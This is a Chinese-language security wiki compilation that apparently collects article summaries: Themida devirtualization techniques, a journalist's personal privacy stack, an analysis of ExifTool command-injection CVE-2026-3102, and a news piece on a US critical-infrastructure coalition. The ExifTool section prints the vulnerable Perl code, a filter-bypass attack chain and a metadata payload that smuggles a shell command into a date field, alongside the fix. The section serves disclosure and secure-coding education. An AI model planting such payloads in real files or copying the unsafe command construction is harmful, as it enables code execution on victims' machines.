### 寄存器压力是降级阶段的决定性约束

降级（Lowering）阶段的最大工程挑战是寄存器压力。如果寄存器分配器发生溢出（spill），devirtualized 代码会产生自己的栈帧，直接导致：IDA、Binary Ninja 等反汇编器将误读栈传递参数的地址，恢复的代码无法正确加载 。这解释了为什么作者对 LLVM-based 方案持保留态度——LLVM 生成能够干净地重新插入二进制的紧凑行为良好原生代码是一个独立项目。这不是 IR 质量问题，而是后端工程问题：让 LLVM 发出 tight, well-behaved native code 需要在每一步都与 LLVM 框架搏斗。

### VJCC handler 是真正的 VM 特定知识孤岛

Themida 的 VJCC handler 构造与 VMProtect 有本质区别，是少数真正需要 VM 特定知识的场景之一 。在 Themida 中，条件先被求值并将结果写入 `branch_taken_flag`，VIP 直到 handler 末尾才推进，这意味着符号执行在 VIP 被解析之前就遇到了分支叉点——两条路径都需要被探索，每条路径的正确 VIP 必须通过 handler 底部的条件 VPC 更新逻辑追踪。相比之下，VMProtect 的 VIP 就是最后加载模块值，逻辑简单得多。这解释了为什么跨保护器去虚拟化框架必须为 Themida 的 VJCC 处理单独建模。

### MBA 混淆的对抗性演化

带不透明值的 MBA（Mixed Boolean-Arithmetic）表达式是早期对抗符号执行的手段——通过编码分支目标来阻止常量折叠 。但这类 MBA 表达式目前已能被现有技术轻易约简（参见 Back Engineering 的演示）。更强的技术（如 CodeDefender 在重型保护层级中实现的技术）可从根源上使符号执行变得不可行。这揭示了攻防博弈的演进方向：防御方在持续寻找无法被通用优化简化的混淆手段，而进攻方（devirtualization）必须持续扩展 passes 的通用性。

## 实践启示

### 优先实现 Dead Store Elimination + Dead Dependency Analysis 组合

这两个 passes 协同工作产生的是「看起来像函数而非 VM 解释器」的 IR 。VM handlers 不断通过 context 和虚拟栈 shuffle 状态，没有 Dead Store Elimination，这些 store 作为无消费者、无原生可见输出路径的悬空表达式持久存在于 IR 中。配合 Dead Dependency Analysis（识别被 native 代码 clobber 的寄存器/标志），才能真正从 VM 脚手架中打捞出干净的函数语义。

### 降级阶段全程监控寄存器压力，避免 spill 发生

寄存器溢出直接破坏恢复代码的正确性和可用性 。工程实现中应该在寄存器分配器周围设置监控机制，当分配器报告溢出趋势时主动触发 IR 重写（例如简化表达式树、合并相邻操作）以腾出寄存器，而非被动接受溢出后再 spill。目标是产生可执行输出，使其在任何反汇编器中都干净地加载，没有多余栈帧。

### 对 LLVM 后端保持清醒认知：IR 质量不等于后端质量

学术 lifting 框架（如 Remill）在 IR 生成方面已经相当成熟，但到达「干净可重插入的原生代码」这最后一公里仍需要大量工程投入 。如果目标是实用化 devirtualization 工具，应该将后端工程视为独立项目来规划，而非假设 LLVM 能够开箱即用解决所有问题。BLARE2 的自定义后端正是为此设计——为 devirtualization 场景量身打造的 IR → Native 流水线。

### 将 VM-specific 知识限制在 VJCC 和 VMEXIT-CALL 判断两点

其余所有优化 passes（常量提升、常量折叠、死存储消除、指令组合、分支折叠等）都是通用编译器技术 。在架构设计时应将这些通用 passes 视为核心组件，VM-specific 处理仅在必要时介入：VJCC 的 `branch_taken_flag` 追踪逻辑，以及基于 RSP 位移判断 VMEXIT-CALL/VMEXIT-返回/VMEXIT-不支持指令三类出口的分类逻辑。这种分离确保了框架的跨版本和跨保护器能力。

### 防御方视角：MBA 混淆需升级至不可简化类

对于软件保护器的开发者而言，基于不透明值的 MBA 表达式已不足以抵御现代符号执行 + 常量折叠技术组合 。更强的方向是 CodeDefender 重型保护层级中实现的技术——从符号执行根本上不可行的角度设计混淆。这要求保护器设计者持续关注去虚拟化技术的能力边界，并在混淆手段上保持代际领先。

## 相关工具与框架

- **BLARE2** — Back Engineering Labs 自研，商用级 binary lifting 和重编译引擎
- **Triton** — 符号执行引擎，可用于 IR 提升
- **Remill** — LLVM-based lifting 框架，IR 质量好但后端有限
- **themida-unmutate** — ergrelet 开发的 Themida 去混淆工具
- **VMProtect-devirtualization** — JonathanSalwan 社区项目

## 相关实体

- [Static Devirtualization of Themida](https://github.com/QianJinGuo/wiki/blob/main/entities/static-devirtualization-themida.md) — 完整技术分析（2026）
- [Static Devirtualization of Themida](https://github.com/QianJinGuo/wiki/blob/main/entities/static-devirtualization-of-themida.md) — 方法论详解
- [Static Devirtualization of Themida](https://github.com/QianJinGuo/wiki/blob/main/entities/back-engineering-static-devirtualization-themida.md) — 实践启示
- [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/static-devirtualization-of-themida.md)
- [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/back-engineering-static-devirtualization-themida.md)

---

## Ch12.019 What My Privacy and Security Stack Actually Looks Like

> 📊 Level ⭐⭐ | 14.1KB | `entities/what-my-privacy-and-security-stack-actually-looks-like.md`

# What My Privacy and Security Stack Actually Looks Like

## 摘要

资深隐私/安全记者 Yael 在博文中分享了她"实际在用"的隐私与安全实践，区别于常规的"工具推荐清单"。她的栈覆盖日常行为（情绪直觉、线下会面习惯）、个人信息保护（PO Box、数据经纪商退订）、隐私卫生（隐私屏、耳机通话、删除旧账号）、设备卫生（磁盘加密、iVerify、权限审计）、认证（YubiKey + 1Password/Bitwarden + Authy）、浏览（Mullvad VPN、uBlock Origin、Privacy Badger、多浏览器轮换）、通信保护（Signal 消失消息、Google Advanced Protection Program、Apple Lockdown Mode）、支付（信用卡优先、冻结信用）。

## 核心要点

- **"情绪直觉"是最重要的安全工具**：Yael 把"留意自己的感受"列为列表中最重要的——感到压力、不舒服、被催促时拒绝行动；遇到"紧急"消息时通过另一渠道核实。这种无法量化的判断力比任何技术工具都更关键。
- **线下会面安全实践**：会面前做背景调查、约在公共场所、必要时带人、告知朋友位置与预期联系时间；不在活动进行时实时发帖（除非已公告、地点拥挤、有大群体或限定受众）。
- **地址保护**：使用 PO Box（996 张发票中只有 1 次让 Yael 后悔透露了家庭地址，"一次就够"）；使用 EasyOptOuts + 自维护的 big-ass-data-broker-opt-out-list 清查家庭地址在网上的痕迹；遇到搜索结果时使用 Google suppression tools 申请移除。
- **隐私卫生习惯**：公共场所查看财务文件时使用磁性隐私屏；不公开场合接重要电话；半公开场合（如联合办公空间的电话亭）使用耳机；定期删除不再使用的账号；用 Cyd 删除旧推文并完全离开 Twitter/X（保留账号防冒名）。
- **设备卫生**：磁盘加密、定期备份、即时更新软件；尽可能避免生物识别（出于个人威胁模型考虑）；定期审计 app 权限、关闭广告追踪、启用自动更新；iVerify 做设备安全检查；敏感图片使用 locked folders / hidden albums。
- **认证体系**：Yael 认为 passkeys 是革命性但仍偏好物理安全密钥——她有三个 YubiKey（"至少需要一个备份"是必须）；使用两个密码管理器——1Password 和 Bitwarden；当 passkey/security key 不可用时使用 Authy；Authy 不可用时选择 email MFA 而非 SMS。
- **浏览实践**：Mullvad VPN 用于避免特定站点记录 IP 但不在意 ISP 可见；uBlock Origin 与 Privacy Badger 阻挡广告与追踪；在多个浏览器间轮换（最近偏爱 DuckDuckGo，但 Chrome、Firefox、Tor 都不会放弃）；明确避免 AI-based browsers 与"给 AI 太多信息"。
- **通信保护**：使用 Google Advanced Protection Program + Apple Lockdown Mode；高风险项目使用专用设备（包括 Chromebook），并且不携带它们出行；存储决策根据故事与情境判断，通常优先本地。
- **支付策略**：优先信用卡（更好的欺诈保护、与银行账户的距离）；避免与陌生人用现金、Zelle、Venmo；不使用加密货币；保持信用冻结。
- **沟通渠道**：Signal + 消失消息为主要通信；视频通话时留意 transcription 工具，敏感话题回避；Google Fi 提供 SIM-swap 保护（与 Advanced Protection 关联的 Google 账号绑定）；iCloud Hide My Email 生成别名邮箱；HaveIBeenPwned 监控账号泄露。
- **情报源**：通过 Slack、Discord、Signal 群组与 LinkedIn、Mastodon、Bluesky 等社交媒体保持对最新威胁的关注；阅读 The Verge、404 Media、Wired、This Week in Security 等；听 The Three Buddy Problem、Security Cryptography Whatever 等播客；关注 EFF、EPIC、IWMF、PEN America 等非营利组织的发布。

## 深度分析

### 为什么"情绪直觉"被列为第一位

Yael 把"留意自己感受"放在所有技术工具之前——这不是矫情，而是基于她作为安全/隐私记者 12 年的实际经验：

- 当感到疲惫而被催促见面时，停下来
- 当感到被要求分享不舒服的信息时，拒绝
- 当 app 请求可疑权限时，不安装
- 当 email/message 显得"紧急"时，该紧迫性本身就是红旗信号——通过另一渠道核实

这种"系统 1 / 系统 2"的安全直觉比工具更重要：技术工具无法替代人对自己状态与情境的觉察。"我们都时不时会失败，社会性问题也确实存在，但尽力做好仍然重要。"

### "996 张发票"的地址保护经验

Yael 用 PO Box 替代家庭地址发出 996 张发票，其中只有 1 张让她后悔——足以证明 PO Box 策略的有效性。这是一种"统计意义上零失败"的策略：即使 99.9% 的客户是无害的，那 0.1% 已经足够。

她同时通过两层机制主动清除家庭地址的公开痕迹：
1. **付费服务 EasyOptOuts**（多年使用，"有效且负担得起"）
2. **自维护的 GitHub 项目 big-ass-data-broker-opt-out-list**
3. 当 Google 搜索结果仍包含时，使用 Google suppression tools（不一定有效）

### 认证体系的层级降级策略

Yael 的认证偏好层次：

1. **首选：Passkeys**（"革命性"），但她个人偏好物理密钥
2. **实际偏好：物理安全密钥**——3 个 YubiKey，"至少一个备份"是硬性要求
3. **次选：1Password + Bitwarden** 双密码管理器
4. **MFA 不可用 passkey/security key 时：Authy**
5. **Authy 也不可用时：Email MFA > SMS MFA**

SMS MFA 被刻意降级到最低优先级，是符合当前安全共识的——SIM swap 攻击已经让 SMS 成为高风险通道。

### 为什么同时用两个密码管理器

"客户偶尔会共享 vault"——这是 Yael 用 1Password + Bitwarden 双管家的实际原因：商业客户端生态（可能用 1Password）和开源/个人生态（更可能用 Bitwarden）之间的桥接。这种实务考量比"哪个更好"的工具评比更有说服力。

### 多浏览器轮换的隐蔽含义

Yael 在 Chrome、Firefox、Safari、DuckDuckGo、Tor 之间轮换。这种习惯的真正价值不在于"哪个最隐私"，而在于**隔离**：

- 不同浏览器的 cookie 存储、扩展权限、JavaScript 引擎隔离提供天然的"风险分散"
- 一个浏览器被攻破时，其他浏览器保持干净
- DuckDuckGo 提供"开箱即用"的隐私保护，但 Chrome（工作必需）、Firefox（扩展生态）、Tor（极致匿名）都不能放弃

同时明确"避免 AI-based browsers"——这类浏览器通常需要读取大量页面数据用于 AI 摘要、对话、推荐，与隐私目标直接冲突。

### 高风险项目的专用设备策略

"对于高风险项目，我推荐专用设备（包括 Chromebook），并且不携带它们出行。"

这是安全行业经典的"air-gapped device for sensitive work"理念在个人层面的应用——把最重要的项目与日常设备物理隔离，降低"一次入侵 = 全部资产暴露"的单点风险。

### Google Advanced Protection Program + Apple Lockdown Mode 的组合

两者并用代表"接受功能性损失换取最大安全裕度"：

- **Google Advanced Protection**：强制要求物理安全密钥（不可降级）、限制第三方 app 访问 Google 账号数据
- **Apple Lockdown Mode**：禁用多种消息附件、限制 FaceTime、未知号码来电、配置描述文件等

对普通用户来说这些是过度限制，但对高风险职业（调查记者、举报人、活动人士）则是必要代价。

### 信息订阅生态

Yael 的威胁情报来源形成了一个分层结构：

| 层级 | 形式 | 代表 |
|------|------|------|
| 即时 | Slack/Discord/Signal 群组 | 行业内部 |
| 中度 | 社交媒体 | LinkedIn, Mastodon, Bluesky |
| 长期 | 媒体 | The Verge, 404 Media, Wired |
| 周期 | Newsletter | This Week in Security |
| 深度 | 播客 | The Three Buddy Problem, Security Cryptography Whatever |
| 公益 | 非营利组织 | EFF, EPIC, IWMF, PEN America |

这种多源结构避免了"单一信息茧房"的风险——不同来源对同一事件会有不同视角，更容易识别真相。

## 实践启示

1. **威胁模型是隐私决策的隐藏前提**：Yael 强调"避免生物识别"是出于她个人的威胁模型。读者应该根据自己的职业、生活方式、风险偏好建立自己的威胁模型，再选择工具组合——而非盲目复制任何"最佳实践"清单。
2. **物理安全密钥是认证的"硬底线"**：3 个 YubiKey + 至少 1 个备份是 Yael 的最低配置；这是当前对抗钓鱼最有效的方案，比 SMS、TOTP 都更安全。
3. **隐私是"减少不必要暴露"而非"完美匿名"**：Yael 的目标是"在不把生活变得不可行的情况下减少不必要的暴露"，不是隐身。务实地选择可执行的步骤比追求完美的安全状态更有效。
4. **多浏览器 + 多密码管理器是隔离哲学的体现**：单一工具被攻破时，隔离能限制爆炸半径——但需要为每个工具维护独立的强认证。
5. **AI 工具的隐私风险需要主动评估**：在 ChatGPT/Claude/Gemini 上粘贴敏感信息时要意识到这些对话可能被浏览器扩展（参见 LLMReaper）、第三方审计、模型训练数据收集等渠道暴露——非必要不粘贴敏感数据。
6. **数据经纪商退订是地址保护的核心动作**：EasyOptOuts 或自维护的 opt-out list 应该成为新常态——地址在白页、人物搜索、公开记录站点上的暴露比大多数人意识到的更广泛。

## 相关实体

- [Karpathy Vibe Coding 访谈](https://github.com/QianJinGuo/wiki/blob/main/entities/karpathy-最新访谈从-vibe-coding-到-agentic-engineering.md)
- [Karpathy Vibe Coding 完整版](https://github.com/QianJinGuo/wiki/blob/main/entities/karpathy-vibe-coding-agentic-engineering.md)
- [Claude Code 源码机制](https://github.com/QianJinGuo/wiki/blob/main/entities/两万字详解claude-code源码核心机制.md)
- [Agent 原理架构与工程实践](https://github.com/QianJinGuo/wiki/blob/main/entities/你不知道的-agent原理架构与工程实践-v2.md)
- [多智能体交易系统](https://github.com/QianJinGuo/wiki/blob/main/entities/构建基于多智能体架构的深度思考交易系统-v2.md)
- [OpenClaw 完整指南](https://github.com/QianJinGuo/wiki/blob/main/entities/openclaw-完全指南这可能是全网最新最全的系统化教程了32w字建议收藏.md)
- [LLMReaper Browser Extension Attack](https://github.com/QianJinGuo/wiki/blob/main/entities/llmreaper-dom-based-ai-conversation-exfiltration-via-browser-5ee512.md) — AI 对话的扩展窃取风险

> [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/what-my-privacy-and-security-stack-actually-looks-like.md)

---

## Ch12.020 How an image could compromise your

> 📊 Level ⭐⭐ | 14.0KB | `entities/howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve-2026-310.md`

## 核心要点

- **CVE 编号**: CVE-2026-3102
- **影响版本**: ExifTool ≤ 13.49 (macOS)
- **修复版本**: ExifTool 13.50
- **漏洞类型**: Command Injection (命令注入)
- **利用条件**: 需要使用 `-n` (printConv) 参数
- **攻击向量**: 图像文件 EXIF 元数据中的日期字段
- **发现时间**: 2026 年 2 月
- **披露时间**: 2026 年 5 月 20 日

## 漏洞概述

ExifTool 是一款广泛使用的元数据读取/写入工具，支持图像、PDF、音频、视频等多种文件格式。该漏洞存在于 ExifTool 调用 macOS 系统工具 `/usr/bin/setfile` 处理文件创建日期时的参数构造过程中。攻击者通过在图像文件的 EXIF 日期字段中注入单引号，可以突破命令字符串的完整性，导致任意 shell 命令执行。

## 技术分析

### 漏洞定位：SetMacOSTags 函数中的 system() 调用

研究人员在 ExifTool 的 `SetMacOSTags` 函数中发现了危险的 `system()` 调用。该函数负责处理 macOS 文件系统属性，特别是 `MDItemFSCreationDate`（映射到内部别名 `$FileCreateDate`）。问题在于命令构造方式：

```perl

# 漏洞版本（13.49 及之前）
$cmd = "/usr/bin/setfile -d '${val}' '${f}'";
system($cmd);
```

其中 `$f`（文件名）经过适当转义，但 `$val`（日期值）直接来自用户控制的 EXIF 元数据字段，完全未经sanitization（净化）。

### 攻击链分析

1. **入口点选择**: 研究人员发现 `DateTimeOriginal` 等日期标签接受原始值写入，且通过 `-tagsFromFile` 功能复制到 `FileCreateDate` 时会触发 `SetMacOSTags` 函数

2. **绕过验证机制**: 直接写入 `FileCreateDate` 会被 ExifTool 的 `PrintConvInv` 过滤器拦截（显示 "Invalid date/time" 错误）。但使用 `-n` 参数可绕过此过滤器，因为 `-n` 跳过 PrintConvInv 转换步骤，直接接受机器可读的原始值

3. **注入 payload**: 在 `DateTimeOriginal` 中注入包含单引号的日期字符串，例如 `'YYYY-MM-DD'; touch /tmp/pwned #`

4. **触发执行**: 通过 `-tagsFromFile` 将被污染的 `DateTimeOriginal` 复制到 `FileCreateDate` 时，命令构造为：
   ```bash
   /usr/bin/setfile -d 'YYYY-MM-DD'; touch /tmp/pwned #' '/path/to/file.jpg'
   ```
   单引号闭合后注入的命令得以执行

### 修复方案分析

版本 13.50 采用了两项关键修复措施：

1. **从字符串拼接改为参数列表形式**：
   ```perl

   # 修复后（13.50）
   system('/usr/bin/setfile', '-d', $val, $file);
   ```
   传递数组参数而非字符串，Perl 的 `system()` 不会再调用 shell 解释器，从而完全避免了 shell 注入风险

2. **新增 System() 包装函数**: 创建专门的 `System()` 包装函数来处理 I/O 重定向（将 stdout/stderr 重定向到 `/dev/null`），保持原有行为的同时提供安全接口

## 深度分析

### 漏洞根源：信任边界跨越与不安全编程范式

CVE-2026-3102 体现了安全编码中一个经典而持久的问题：**在不同信任域之间传递数据时的不安全编程范式**。具体而言：

1. **元数据解析层 → 系统调用层的信任传递**: ExifTool 在高层解析 EXIF 元数据时，该数据来自不可信的外部输入（用户提供的图像文件），但这些数据被直接拼接到即将由操作系统执行的命令字符串中。这是典型的 **Tainted Data（污染数据）** 问题的变种。

2. **部分缓解措施的错误安全感**: 研究人员注意到代码中 `$f`（文件名）已经做了适当转义，这种**部分缓解**反而可能造成开发者的安全错觉——认为已有数据在某种程度上受到了保护，但关键参数 `$val` 实际上完全暴露。这种选择性防护在安全领域被称为 **"安全煤气灯效应"（Security Gaslighting）**。

3. **与 CVE-2021-22204 的关联性**: 研究人员指出此漏洞是在审计 CVE-2021-22204（ExifTool eval 注入漏洞）相邻代码路径时发现的。这说明：

   - 单一漏洞修复可能遗漏类似模式的漏洞
   - 安全审计应该关注**漏洞类别**而非单个漏洞
   - 代码中任何与 eval/system 等危险 sink 交互的路径都需要系统性审查

### 利用场景与攻击向量

- **攻击者画像**: 任何能向目标用户发送图像文件的人（邮件附件、即时通讯、云存储共享、网页下载）
- **目标场景**: 新闻媒体（处理大量图片）、设计机构、摄影师、任何在 macOS 上使用 ExifTool 进行批量图片处理的企业或个人
- **攻击影响**: 获得与 ExifTool 进程相同权限的 shell 执行权限，可部署木马、窃取数据、横向移动
- **隐蔽性**: 恶意图片在视觉上完全正常，元数据注入不产生任何可见异常

### 架构级修复的示范意义

ExifTool 13.50 的修复方案代表了处理此类漏洞的最佳实践：

| 修复前 | 修复后 | 安全改进 |
|--------|--------|----------|
| 字符串拼接命令 | 参数列表传递 | 消除 shell 解释 |
| 依赖手动转义 | 架构层面安全 | 消除人为错误空间 |
| system() 直接调用 | System() 包装器 | 统一安全接口 |

这种从**字符串形式**到**列表形式**的转变，遵循了 **"Secure by Default"** 原则——即使开发者忘记或遗漏转义，系统层面仍然安全。

## 实践启示

### 对开发者的启示

1. **永远不要将外部输入直接拼接到命令字符串中**: 不论是文件名、路径还是任何来自文件元数据的值，都应被视为不可信输入。最安全的做法是使用参数列表形式的 API（如 Perl 的 `system(@args)` 而非 `system($cmd_string)`），或使用 `IPC::Open3` 等更安全的 IPC 机制。

2. **任何与 eval/system/exec 等危险函数交互的数据流都需要 taint checking**: 在 Perl 等语言中，应启用 taint 模式（`perl -T`），自动检测污染数据的流向。

3. **修复一个漏洞时，应审计同类漏洞模式**: CVE-2026-3102 与 CVE-2021-22204 的发现路径说明，开发者应该进行**系统性代码审计**，特别关注所有与危险 sink 交互的代码路径。

4. **依赖库的安全性审核不能忽视**: ExifTool 作为库被其他软件嵌入使用时（如图像管理应用、摄影工作流工具），其漏洞会连带影响宿主应用。即使 ExifTool 本身已修复，也要确保应用中使用的 ExifTool 库版本同步更新。

### 对安全研究人员的启示

1. **n-day 漏洞是发现同类漏洞的金矿**: 对已公开漏洞进行深入分析，往往能发现相邻代码路径上存在类似模式的问题。CVE-2021-22204 的后续发现 CVE-2026-3102 证明了这一点。

2. **利用限制条件本身也值得研究**: `-n` 参数的绕过（跳过 PrintConvInv 过滤器）展示了安全机制如何被绕过，即使主过滤路径被修复，侧信道仍然存在。全面理解程序的数据流和控制流是发现此类漏洞的前提。

### 对企业安全运营的启示

1. **软件供应链的元数据处理工具需要纳入安全评估**: ExifTool 这类广泛使用的工具一旦出现 RCE（远程代码执行）漏洞，影响面极大。企业应建立第三方组件的持续监控机制，使用 [Kaspersky Open Source Software Threats Data Feed](https://www.kaspersky.com/open-source-feed) 等服务追踪开源组件漏洞。

2. **隔离处理来自不可信来源的图像文件**: 对于必须处理外部图像的工作流程（如新闻编辑室、社交媒体运营、设计外包），应在隔离环境（虚拟机、容器）中处理，并限制网络和存储访问权限。

3. **macOS 端点安全不容忽视**: 虽然 macOS 常被认为比 Windows 更安全，但其上的工具链（如 ExifTool）同样可能存在严重漏洞。macOS 用户应安装安全解决方案（如 [Kaspersky for macOS](https://www.kaspersky.com/mac-antivirus)）并保持系统更新。

4. **BYOD 和自由职业者场景需要额外安全策略**: 当允许承包商或自由职业者的设备接入企业网络时，应验证其设备已安装并运行活跃的安全解决方案。

### 对普通用户的启示

1. **不要打开来源不明的图像文件**: 即使是看似正常的图片，也可能包含恶意元数据。在 macOS 上处理来自不受信任来源的图像时要格外谨慎。

2. **保持 ExifTool 更新**: 如果你在命令行或通过第三方应用使用 ExifTool，请确保版本 ≥ 13.50。

3. **不要依赖单一安全措施**: 组合使用多种安全实践（系统更新、安全软件、谨慎的上网习惯）才能获得最佳防护效果。

## 相关实体
- [Exiftool Compromise Mac 592994](https://github.com/QianJinGuo/wiki/blob/main/entities/exiftool-compromise-mac-592994.md)
- [Shub Reaper Macos Stealer Attack Chain](https://github.com/QianJinGuo/wiki/blob/main/entities/shub-reaper-macos-stealer-attack-chain.md)
- [Trackingtamperedchefclustersviacertificateandcodereuse](https://github.com/QianJinGuo/wiki/blob/main/entities/trackingtamperedchefclustersviacertificateandcodereuse.md)
- [Cve 2026 20182 Unauthenticated Cisco Sd Wan Control Plane Compromise Via Vhub Au](https://github.com/QianJinGuo/wiki/blob/main/entities/cve-2026-20182-unauthenticated-cisco-sd-wan-control-plane-compromise-via-vhub-au.md)
- [Claw Chain Cyera Research Unveil Four Chainable Vulnerabilities In Openclaw](https://github.com/QianJinGuo/wiki/blob/main/entities/claw-chain-cyera-research-unveil-four-chainable-vulnerabilities-in-openclaw.md)

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/howanimagecouldcompromiseyourmacunderstandinganexiftoolvulnerabilitycve-2026-310.md)

---

## Ch12.021 Alliance for Critical Infrastructure (ACI): US Critical Infrastructure Cybersecurity Coalition

> 📊 Level ⭐⭐ | 14.0KB | `entities/818662.md`

# Alliance for Critical Infrastructure (ACI): US Critical Infrastructure Cybersecurity Coalition

> Source: Cybersecurity Dive, Eric Geller, 2026-05-11. URL: https://www.cybersecuritydive.com/news/critical-infrastructure-cybersecurity-coalition-aci-government/818662/

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/818662.md)

## 摘要

2026 年 2 月，JPMorgan Chase、Mastercard、AT&T、Berkshire Hathaway Energy 等公司联合发起 Alliance for Critical Infrastructure（ACI，关键基础设施联盟），把既有的三部门执行工作组（Tri-Sector Executive Working Group：能源、金融、电信）重组为可吸纳更多成员的非营利组织。联盟成立的直接背景是 Trump 政府对 CISA 的大幅裁员、关闭 Critical Infrastructure Partnership Advisory Council（CIPAC），并暗示可能关闭 FEMA——这导致基础设施运营商失去与联邦政府的协调通道。ACI 的核心战略是四支柱：① 跨部门依赖分析；② polycrisis（复合危机）联合响应；③ 私营部门对政府的运营支持（含扩大的信息共享）；④ 政策与监管建议。

## 核心要点

- **联盟由 2025 政府撤退催化**：整个 2025 年 Trump 政府清洗 CISA、取消 CIPAC、考虑关闭 FEMA，私人部门从「支持角色」转为「领导角色」。Tri-Sector 重组为可招募更多会员的非营利 ACI。
- **创始成员结构**：JPMorgan Chase、Mastercard、AT&T、Berkshire Hathaway Energy 四大行业巨头联合发起，执行董事 Michele Guido（来自 Southern Company 战略安全政策总监）、主席 Ben Flatgard（JPMorgan Chase 网络安全政策负责人），Lumen Technologies CSO Natnael Habtesion 等担任顾问。
- **核心痛点：跨部门依赖无人建模**：每个垂直行业都「在自己的筒仓里变得很擅长」，但跨部门的依赖关系（如 GPS 卫星、海底光缆支撑 AI/云计算）没有任何一个行业能完全理解或缓解。Lumen CSO Habtesion 的判断是 ACI 的独特价值在于「认识到对某一部门的威胁很少保持孤立，会产生相邻影响」。
- **四支柱战略**：① 跨部门依赖分析（发白皮书）；② polycrisis 联合响应协议（含与 CISA 合作扩展现有 incident-response playbooks）；③ 对政府的运营支持与扩大的信息共享；④ 政策与监管建议。
- **Polycrisis 定义**：国家级紧急情况同时威胁广泛基础设施（物理+数字后果叠加）。典型场景：自然灾害 + 重大网络攻击同时发生，「我们不是这么规划的」（Guido）。现有策略是为地理有限的 5 级飓风准备的，复合危机下「会显著拉伸我们的能力」。
- **三角制衡（Tri-Sector 的局限）**：原有 Tri-Sector 撮合了能源、金融、电信，影响了国会特许的 Cyberspace Solarium Commission 建议等行政与立法，但始终未能解决跨部门组件问题，ACI 试图补上这一环。
- **与 ISAC/SCC 协作避免重复**：ACI 已开始与 ISAC（信息共享与分析中心）和 SCC（部门协调委员会）对话。Health-ISAC CSO Errol Weiss 的关键建议是 ISAC 已提供运营威胁情报和部门特定上下文，「重复或绕过该生态系统会给运营商带来混乱」。
- **政府关系缺口**：CIPAC 框架（让政府与行业领袖私下会面而没有反垄断担忧）被突然取消，DHS 正在开发替代品但政府不回答运营商的问题。Harrell（前 CISA 基础设施安全助理主任）的提醒是：没有联邦监督，行业联盟「缺乏支撑其运营的主权情报源和反垄断豁免」。
- **CISA 仍在行动但规模有限**：CISA 最近发布危机期间维持服务的指南，计划通过针对性接触评估运营商的弹性，但 CISA 的裁员可能限制该工作规模。ACI 想要 CIPAC 替代品，「但我认为这不能阻止我们继续前进」（Guido）。

## 深度分析

### 1. ACI 出现的政治背景：政府撤退的产业自组织

ACI 不是常规意义上的行业自律组织——它是 2025-2026 年美国联邦政府网络安全协调能力系统性退却的产业对冲。 关键事实链是：① CISA 被大幅裁员（很多部门领导离开或即将离开）；② CIPAC 框架被突然取消（让政府行业私下协调变得有反垄断风险）；③ 联邦应急管理署（FEMA）被考虑关闭；④ 白宫鼓励各州接管历史上属于联邦的关键基础设施保护责任。这四件事叠加后，私人部门从「协调支持角色」转向「承担领导责任」。Ben Flatgard 的总结很到位：「我们不能把这种责任或相关的风险管理实践外包出去，我们必须也自己掌控解决方案。」 这条线给跨国/跨行业 IT 架构师的启示是：当公共部门能力收缩时，私人部门的自组织会成为新的现实，但自组织联盟缺乏主权情报源和反垄断豁免，注定是「带边界的能力补充」而不是「政府的替代品」。

### 2. Polycrisis 是 ACI 唯一真正新的安全概念

四支柱战略里前两项（跨部门依赖分析、polycrisis 联合响应）才是 ACI 区别于既有 ISAC/SCC 的真正价值。 Polycrisis 不是简单的「多事件同时发生」，而是「国家级紧急情况同时威胁广泛基础设施且物理+数字后果叠加」——一个飓风袭击某地区的同时遭遇重大网络攻击。Guido 的原话是「那不是我们规划的方式」。 这种威胁形态打破了传统安全模型的几个前提：① 单部门演练无法应对；② 物理事件与网络事件的因果链难以预先建模；③ 资源在多事件并发下被稀释（Flatgard 原话「会显著拉伸我们的能力」）；④ 决策权在「坏日子那天」由谁承担是制度空白。这给网络安全架构师的具体启示是：传统 SPOF（单点故障）模型不够用，需要的是「级联故障路径」建模——当一个行业被影响时，会触发哪些相邻行业（电信被影响 → 支付被影响 → 金融被影响）的次生故障，这是 ACI 第一个支柱「跨部门依赖分析」要解决的核心问题。

### 3. ISAC/SCC 协作模型是 ACI 成功的关键约束

ACI 的执行路径里最容易被忽视但最关键的一条是：与既有 ISAC（信息共享与分析中心）和 SCC（部门协调委员会）的协作承诺。 ACI 领导层反复强调「我们不想重复 ISAC/SCC 已有的功能」，这是制度设计上的清醒。Health-ISAC CSO Errol Weiss 的判断是 ISAC 已提供运营威胁情报和部门特定上下文，「重复或绕过该生态系统会给运营商带来混乱」。 这种「承认既有组织边界、不试图吞并」的姿态是 ACI 与很多失败的产业联盟（比如互联网早期各种「XX 联盟」）的关键区别。给做跨组织架构设计的启示是：建立新组织时，第一步不是定义自己的功能，而是明确「我不做什么，已有什么组织在做」——否则会陷入与既有组织争夺成员和资源的零和博弈。

### 4. CIPAC 缺位的制度真空是 ACI 的最大风险

Harrell（前 CISA 基础设施安全助理主任）的话很尖锐：「没有联邦监督，这些行业联盟缺乏支撑其运营的主权情报源和反垄断豁免。」 这两件事分开看：① 主权情报源是 CISA/FBI/NSA 等机构通过 CIPAC 等机制与行业共享的高敏感度威胁情报，没有这个渠道 ACI 只能依赖商业威胁情报（覆盖和质量都更弱）；② 反垄断豁免让行业领袖可以公开讨论安全事件、共享指标而不违反反垄断法，没有这个保护，ACI 的工作会受制于「什么能说什么不能说」的法律灰色地带。 这意味着 ACI 注定是「带边界的能力补充」——能协调私人部门，但无法替代政府的核心功能。DHS 正在开发 CIPAC 替代品但「政府没有回答运营商的问题」，ACI 的策略是「我们不能让它阻止我们继续前进」（Guido）。 给跨国 IT 架构师的启示是：当政府能力撤退时，私人部门能补的是协调层和运营层，但**信息源和制度保障必须由公共部门提供**，这两件事不能被自组织联盟替代。

### 5. 创始成员结构反映「关键基础设施」的真正权重

